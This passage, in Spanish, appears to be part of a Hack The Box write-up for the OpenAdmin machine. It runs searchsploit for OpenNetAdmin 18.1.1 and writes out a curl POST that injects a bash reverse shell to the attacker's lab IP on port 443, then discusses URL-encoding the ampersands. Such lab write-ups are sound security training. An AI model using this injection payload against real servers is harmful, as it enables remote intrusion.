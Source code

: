 Ya vemos algo que nos debe de llamar la atención, en el recurso `/music` tenemos un **Login**, así que vamos a darle click.

![""](/assets/images/htb-openadmin/openadmin-web3.png)

Nos encontramos ante ***OpenNetAdmin*** de versión 18.1.1; por lo que vamos a buscar posibles exploits relacionados y encontramos uno que nos puede ayudar:

```bash
❯ searchsploit opennetadmin 18.1.1
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                   | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                                    | php/webapps/47691.sh
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Si checamos `php/webapps/47691.sh`, ya que en este sitio no ocupamos metasploit, vemos que manda cierta data por el método POST mediante la herramienta `curl`; así que vamos a quedarnos con eso y tratar de entablarnos una reverse shell, por lo que nos ponemos en escucha por el puerto 443:

```bash
❯ curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >& /dev/t
cp/10.10.14.27/443 0>&1'&xajaxargs[]=ping" "http://10.10.10.171/ona/"
```

Vemos que no se nos entabla la reverse shell, así que vamos a modificar los ampersand (&) por su valor en URL encode (%26).
